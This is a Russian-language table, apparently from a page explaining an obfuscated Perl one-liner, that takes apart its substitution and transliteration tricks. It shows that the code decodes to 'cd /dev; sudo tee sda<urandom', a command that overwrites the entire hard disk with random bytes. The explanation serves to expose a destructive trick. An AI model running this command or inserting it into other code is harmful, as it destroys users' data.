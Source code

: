 | что | что делает |
|-----|------------|
| ключ `e` | указывает, что далее следует perl-выражение, которое необходимо исполнить |  
| ключ `s` | операция замены по регулярке |
| символ `!` | ограничительный символ. Таким образом, пустую строку заменяют на `),-#(-.?{<>-8#=..#< -*}>;*7-86)`. Т.к. аргумент не указан, код выполняется с переменной `$_` |
| ключ `y` | замена символов (на входе 2 набора символов `А` и `В`, заменяет в строке символ `А[0]` на `В[0]`, `А[1]` на `B[1]` и т. д.) |
| выражение `#()-?{}` | первый набор |
| выражение `\x20/`-v;` | второй набор |
| конструкция `)-?` | 'из первого набора' «все символы от `)` до `?` в ASCII-таблице по порядку | 
| конструкция ``\x20/`-v;`| 'второй набор' аналогично, но с `-v`, `\x20` – это пробел(код 32)|
| вся конструкция | происходит замена `#` на пробел, `(` на `/`, `)` на ` и т. д. __После замены получим ‘cd /dev;sudo tee sda<urandom’__ |
| конструкция `s++$_+ee` | `s` – замена, в качестве ограничителя `+`. Модификатор ее означает, что строку «на что заменить» нужно рассматривать как код, результат которого надо подставить в первую строку. Рассматривает правую часть как строку, когда выполняет результат |
| итог | в результате кода выполняется команда `cd /dev; sudo tee sda<urandom`. Копируется содержимое `/dev/urandom `в `/dev/sda`. `/dev/urandom` -устройство, генерирующее случайные байты. `/dev/sda` – жесткий диск целиком. |
